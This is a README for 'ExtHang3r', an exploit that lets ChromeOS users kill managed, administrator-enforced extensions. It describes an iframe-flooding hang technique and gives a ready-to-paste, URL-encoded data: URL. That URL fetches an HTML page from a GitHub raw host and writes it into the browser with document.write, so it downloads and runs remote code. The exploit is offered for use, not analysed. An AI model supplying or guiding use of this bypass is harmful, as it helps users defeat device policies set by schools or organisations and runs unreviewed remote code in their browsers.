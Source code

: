 # ExtHang3r

## What is it?
ExtHang3r is an exploit created by <a href="https://github.com/Blobby-Boi/">Blobby Boi</a> that allows ChromeOS users to kill managed extensions after the LTMEAT patch. It remains unpatched in all new ChromeOS versions as of January 2025.

## How does it work?
This exploit works very similar to <b>Dextensify</b>. The main difference being that instead of creating iframes and slowly getting rid of them, a separate popup window is created that spams iframes and refreshes them. After a few seconds, the popup is closed achieving similar behavior to the <b>LTMEAT Flood</b> method. This worked great in paper, but for whatever reason this hang just woudn't let you disable the extension with the file URLs switch. It would instead just restart the extension. However, a solution was quickly found and it was as simple as just attempting to load any of the extension's pages prior to flipping the switch.

## How do I use it?
To use the exploit, paste the following url into your url bar. More detailed instructions are provided in the exploit's page.

> [!TIP]
> If the tab immediately closes after opening, try changing the beginning of the URL from `data:` to `data://`.

```
data://text/html;charset=utf-8,%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%3Chead%3E%0A%20%20%3Cmeta%20charset%3D%22UTF-8%22%3E%0A%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1.0%22%3E%0A%20%20%3Ctitle%3EExtHang3r%3C%2Ftitle%3E%0A%20%20%3Clink%20rel%3D%22shortcut%20icon%22%20type%3D%22image%2Fpng%22%20href%3D%22https%3A%2F%2Fraw.githubusercontent.com%2FBlobby-Boi%2FExtHang3r%2Frefs%2Fheads%2Fmain%2Ffavicon.png%22%3E%0A%20%20%3Cscript%3E%0A%20%20%20%20document.addEventListener(%22DOMContentLoaded%22%2C%20()%20%3D%3E%20%7B%0A%20%20%20%20%20%20const%20url%20%3D%20%22https%3A%2F%2Fraw.githubusercontent.com%2FBlobby-Boi%2FExtHang3r%2Frefs%2Fheads%2Fmain%2Findex.html%22%3B%0A%0A%20%20%20%20%20%20fetch(url)%0A%20%20%20%20%20%20%20%20.then(response%20%3D%3E%20response.text())%0A%20%20%20%20%20%20%20%20.then(html%20%3D%3E%20%7B%0A%20%20%20%20%20%20%20%20%20%20document.open()%3B%0A%20%20%20%20%20%20%20%20%20%20document.write(html)%3B%0A%20%20%20%20%20%20%20%20%20%20document.close()%3B%0A%20%20%20%20%20%20%20%20%7D)%3B%0A%20%20%20%20%7D)%3B%0A%20%20%3C%2Fscript%3E%0A%3C%2Fhead%3E%0A%3C%2Fhtml%3E
```
